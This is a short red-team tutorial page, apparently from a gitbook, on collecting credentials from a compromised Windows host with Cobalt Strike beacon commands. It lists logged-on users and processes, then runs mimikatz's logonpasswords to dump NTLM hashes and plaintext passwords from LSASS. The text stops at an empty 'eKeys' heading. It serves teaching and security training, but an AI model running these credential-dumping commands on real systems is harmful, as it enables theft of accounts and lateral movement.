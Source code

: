 ```yaml
---
title: Credentials & User Impersonation
category: Red Team
order: 8
---
```


Once we have access to user credentials or being able to impersonate the identity of a user we can move laterally.

In this section it will be explained how to obtain credentials after fully compromise a host (admin privs needed!).

# Get users logged on the host

With the command `net` we can get any users that are currently logged onto the host.

```
beacon> net logons
Logged on users at \\localhost:

CORP\SRV-1$
CORP\user
```

With `ps` we can list which processes are running under which user.

```
beacon> ps

PID   PPID  Name                         Arch  Session     User
---   ----  ----                         ----  -------     -----
448   796   RuntimeBroker.exe            x64   1           CORP\user
```

# Logon Passwords

As we seen on this gitbook, with mimikatz we can retrieve NTLM hashes from LSASS.

The `sekurlsa::logonpasswords` comman in mimikatz can dump **plaintext** passwords from memory if **wdigest is enabled**, which is disabled by default.

```
beacon> mimikatz sekurlsa::logonpasswords
```

Or we can use the short-command.

```
beacon> logonpasswords
```

After dumping the credentials, they are stored in `View -> Credentials`.


# eKeys
